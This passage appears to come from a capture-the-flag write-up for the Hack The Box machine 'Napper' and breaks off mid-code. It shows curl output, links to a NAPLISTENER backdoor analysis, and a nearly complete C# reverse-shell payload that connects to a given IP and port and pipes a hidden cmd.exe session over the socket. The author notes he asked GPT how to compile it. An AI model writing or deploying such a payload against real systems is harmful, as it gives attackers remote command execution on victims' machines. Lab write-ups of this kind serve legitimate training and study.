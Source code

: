 ```
< date: Tue, 14 Nov 2023 12:40:36 GMT
< 
* Connection #0 to host napper.htb left intact
```
Humm interessting. following this : https://www.elastic.co/security-labs/naplistener-more-bad-dreams-from-the-developers-of-siestagraph
Now we need to create a Run Class.
I take this : https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc
I will compile it. so i asked GPT on how to do it
```
using System;
using System.Diagnostics;
using System.IO;
using System.Net.Sockets;
using System.Text;

namespace payload
{
  internal class Program
  {
    static StreamWriter streamWriter;

    public static void BackConnect(string ip, int port)
    {
        using (TcpClient client = new TcpClient(ip, port))
        {
            using (Stream stream = client.GetStream())
            {
                using (StreamReader rdr = new StreamReader(stream))
                {
                    streamWriter = new StreamWriter(stream);

                    StringBuilder strInput = new StringBuilder();

                    Process p = new Process();
                    p.StartInfo.FileName = "cmd.exe";
                    p.StartInfo.CreateNoWindow = true;
                    p.StartInfo.UseShellExecute = false;
                    p.StartInfo.RedirectStandardOutput = true;
                    p.StartInfo.RedirectStandardInput = true;
                    p.StartInfo.RedirectStandardError = true;
                    p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
                    p.Start();
                    p.BeginOutputReadLine();

                    while (true)
                    {
                        strInput.Append(rdr.ReadLine());
                        p.StandardInput.WriteLine(strInput);
                        strInput.Remove(0, strInput.Length);
                    }
                }
            }
        }
    }

    private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
    {
        StringBuilder strOutput = new StringBuilder();

        if (!string.IsNullOrEmpty(outLine.Data))
        {
            try
```